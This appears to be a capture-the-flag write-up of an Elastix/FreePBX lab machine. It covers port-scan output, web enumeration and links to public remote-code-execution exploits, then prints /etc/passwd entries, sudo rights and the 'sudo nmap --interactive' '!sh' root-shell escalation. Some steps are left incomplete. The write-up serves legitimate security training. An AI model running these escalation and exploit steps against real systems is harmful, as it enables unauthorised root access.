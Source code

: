 1,Recon
port scan
```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp   open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS LOGIN-DELAY(0) USER APOP RESP-CODES UIDL AUTH-RESP-CODE PIPELINING EXPIRE(NEVER) TOP IMPLEMENTATION(Cyrus POP3 server v2)
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp  open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ANNOTATEMORE MAILBOX-REFERRALS CATENATE LITERAL+ CHILDREN LISTEXT URLAUTHA0001 LIST-SUBSCRIBED X-NETSCAPE IDLE SORT=MODSEQ IMAP4 SORT NO ID STARTTLS THREAD=REFERENCES RENAME ACL UIDPLUS CONDSTORE RIGHTS=kxte MULTIAPPEND IMAP4rev1 BINARY QUOTA ATOMIC UNSELECT THREAD=ORDEREDSUBJECT NAMESPACE
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_ssl-date: 2024-10-30T13:26:52+00:00; +6s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-title: Elastix - Login page
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry 
|_/
793/tcp  open  status     1 (RPC #100024)
993/tcp  open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp  open  pop3       Cyrus pop3d
3306/tcp open  mysql      MySQL (unauthorized)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax    HylaFAX 4.3.10
5038/tcp open  asterisk   Asterisk Call Manager 1.1
```

Then we firstly check the index page.
![](images/Pasted%20image%2020241030094526.png)

We found Elastix - Login page

```
Elastix is ​​an open source IP communication platform that focuses on VoIP (Internet phone), unified communications (Unified Communications) and call center solutions. It integrates a variety of communication tools to help enterprises build a complete communication system, usually used for telephone systems of small to medium-sized enterprises.
```

Let's dirb and enumerate all the web-content:
![](images/Pasted%20image%2020241030095312.png)

In this place, `/admin` would be our target.
When we check it, it would  be a pop-up authentication window is displayed, asking for authentication, if we do not pass the auth, it would redirect to the url 
`https://10.10.10.7/admin/config.php`
![](images/Pasted%20image%2020241030095517.png)
Then we can get the version of freepbx `FreePBX 2.8.1.4`
We can search the exploit of it and check the vulner.
Thus we found it from exploit-db
`FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution`
It's a RCE, good news for us and we can find the exploit script from github.

https://www.exploit-db.com/exploits/18650 You can download it from here. But it won’t work. You have to make some additional changes to make it work since the server had an SSL certificate which is by the way expired. So I made a few modifications in the script.

Before doing that we have to check what are the extensions available so we can modify the script before it is executed. To check that just run a simple command

We can even find another exploit here 
Exploit: https://www.exploit-db.com/exploits/37637/

Then we successfully get the shell as asterisk.

2,shell as valid user
From the file `/etc/passwd`
```
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
```

That means we need to switch to them and then get the access to root.

When we check `sudo -l `
```
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

```

It was crazy and tricky, so let's use one of them.
Then we can find some hints from GTBOBins
```
The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

sudo nmap --interactive
nmap> !sh
```

